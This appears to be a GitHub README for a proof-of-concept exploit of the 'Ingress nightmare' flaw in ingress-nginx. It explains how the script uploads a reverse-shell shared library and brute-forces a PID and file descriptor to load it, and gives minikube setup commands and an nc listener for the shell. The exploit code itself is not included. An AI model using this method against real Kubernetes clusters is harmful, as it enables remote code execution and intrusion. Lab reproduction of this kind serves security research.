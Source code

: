 # Ingress nightmare

## Exploit

Customize the variables at the beginning of xpl.py to your environment.

The script will:

* Spawn a bunch of threads to create a temp files on the container with the shared library containing the reverse shell.
* Spawn a bunch of threads to try guess the correct PID and FD, triggering the loading of the shared library with the corrupted template.

## Reproduce env

Wiz blog offers terraform files to deploy the system in AWS. I personally don't have an account and didn't wanted to pay to deploy it on the cloud, so I'm running this test locally on a minikube env.

### Start cluster with ingress-nginx

`minikube start`

`helm upgrade --install ingress-nginx ingress-nginx --repo https://kubernetes.github.io/ingress-nginx --namespace ingress-nginx --create-namespace --version 4.11.3`

### Expose ports

`kubectl port-forward -n ingress-nginx svc/ingress-nginx-controller 8443:80`

`kubectl port-forward -n ingress-nginx svc/ingress-nginx-controller 8444:443`

## Open connection

`docker exec -it minikube nc -lvp 4444`

> On minikube, to be sure the container can reach the IP

## Run exploit

`python3 xpl.py`

## POC

![](media/Screenshot%20From%202025-03-30%2013-55-19.png)
![](media/poc.mp4)

## Notes

* For some reason I haven't figured out yet, when uploading a very small library, the file content is cropped in the procfs file (causing a bus error when trying ot execution) so I'm adding some fake functions and compiling with symbols to increase the size, to be sure it won't break.

